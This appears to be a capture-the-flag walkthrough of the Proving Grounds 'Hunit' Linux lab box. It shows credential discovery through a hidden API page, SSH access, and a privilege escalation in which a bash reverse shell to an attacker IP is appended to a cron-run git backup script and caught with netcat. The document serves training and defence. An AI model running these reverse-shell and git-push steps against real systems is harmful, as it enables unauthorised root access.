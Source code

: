 # 🚦 Hunit (Linux)

> **Vector:** WebApp, Git  
> [Walkthrough Link](https://medium.com/@bdsalazar/proving-grounds-hunit-intermediate-linux-box-walkthrough-a-journey-to-offensive-security-36081fc196d)  
> _Difficulty: Intermediate_  
---

### 🔎 Enumeration & Initial Foothold

- Port **8080** was open, presenting a site titled "**The Taste of Rain**" 🌧️.  
- Viewing the source of the main page revealed a hidden `/api/` endpoint, and under `/api/user/` we discovered several hardcoded credentials directly on the page.  
- Used those credentials to successfully SSH into the machine.

---

### 🧑‍💻 Privilege Escalation

- Once inside, ran `linpeas.sh` and identified interesting cron jobs and a sensitive `git_id_rsa` private key.
- According to the walkthrough's _Lateral Movement_ chapter, we exploited Git with SSH:

```bash
GIT_SSH_COMMAND='ssh -i git_id_rsa -p 43022' git clone git@192.168.179.125:/git-server
echo "/bin/bash -i >& /dev/tcp/192.168.45.166/8080 0>&1" >> backups.sh
chmod +x backups.sh
git config --global user.name "kali"
git config --global user.email "kali@kali.(none)"
git add -A
git commit -m "pwn"
GIT_SSH_COMMAND='ssh -i /home/kali/LinuxMachines/Hunit/git_id_rsa -p 43022' git push origin master
nc -nlvp 8080
```

- After pushing the malicious backup script, within about 3 minutes a reverse shell was received as root 🚀.

---

**Key Takeaways:**  
- 🕵️ Always review API endpoints and hidden pages for sensitive info.  
- 🗝️ Exploiting exposed git credentials and cron jobs can yield root access.  
- ⏰ Git hooks and cron jobs are prime escalation vectors on Linux boxes.

---

**Security Note:**  
> Never expose sensitive credentials or SSH keys in web application APIs, and restrict SSH & Git service ports in production.